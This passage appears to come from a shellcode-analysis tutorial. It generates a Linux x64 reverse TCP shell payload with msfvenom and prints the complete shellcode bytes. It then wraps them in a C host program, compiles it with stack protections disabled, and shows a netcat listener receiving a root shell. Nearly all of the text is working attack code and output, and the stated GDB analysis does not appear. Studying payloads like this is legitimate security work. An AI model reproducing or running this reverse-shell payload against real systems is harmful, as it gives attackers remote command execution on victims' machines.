 ## Generating the MSFVenom Payload
Here we generate the payload on Kali Linux and output it to the C format. This allows us to easy add it to our host shellcode.c program.
```bash
root# msfvenom -v shellcode -f c -p linux/x64/shell_reverse_tcp LHOST='127.1.1.1'
Payload size: 74 bytes
unsigned char shellcode[] =
"\x6a\x29\x58\x99\x6a\x02\x5f\x6a\x01\x5e\x0f\x05\x48\x97\x48"
"\xb9\x02\x00\x11\x5c\x7f\x01\x01\x01\x51\x48\x89\xe6\x6a\x10"
"\x5a\x6a\x2a\x58\x0f\x05\x6a\x03\x5e\x48\xff\xce\x6a\x21\x58"
"\x0f\x05\x75\xf6\x6a\x3b\x58\x99\x48\xbb\x2f\x62\x69\x6e\x2f"
"\x73\x68\x00\x53\x48\x89\xe7\x52\x57\x48\x89\xe6\x0f\x05";
```
+ Right off the bat we can see that `\x7f\x01\x01\x01' is clearly our IP address `127.1.1.1`.

## Shellcode.c Host Program
Here we add our shellcode to our C host program. We will compile our host program, and then use GDB for analysis of the non-staged reverse shell payload.

```c
#include<stdio.h>
#include<string.h>
unsigned char shellcode[] =
"\x6a\x29\x58\x99\x6a\x02\x5f\x6a\x01\x5e\x0f\x05\x48\x97\x48"
"\xb9\x02\x00\x11\x5c\x7f\x01\x01\x01\x51\x48\x89\xe6\x6a\x10"
"\x5a\x6a\x2a\x58\x0f\x05\x6a\x03\x5e\x48\xff\xce\x6a\x21\x58"
"\x0f\x05\x75\xf6\x6a\x3b\x58\x99\x48\xbb\x2f\x62\x69\x6e\x2f"
"\x73\x68\x00\x53\x48\x89\xe7\x52\x57\x48\x89\xe6\x0f\x05";
int main()
{
        int (*ret)() = (int(*)())shellcode;
        ret();
}
```

### Compile & Test Shellcode.c
Start a netcat listener on port 4444 before executing the reverse shell shellcode.
#### Terminal 1
```bash
root# gcc -m64 -z execstack -fno-stack-protector shellcode.c -o shellcode
root# ./shellcode

```

#### Terminal 2
```bash
root# nc -nlvp 4444
listening on [any] 4444 ...
connect to [127.1.1.1] from (UNKNOWN) [127.0.0.1] 59182
id
uid=0(root) gid=0(root) groups=0(root)
```
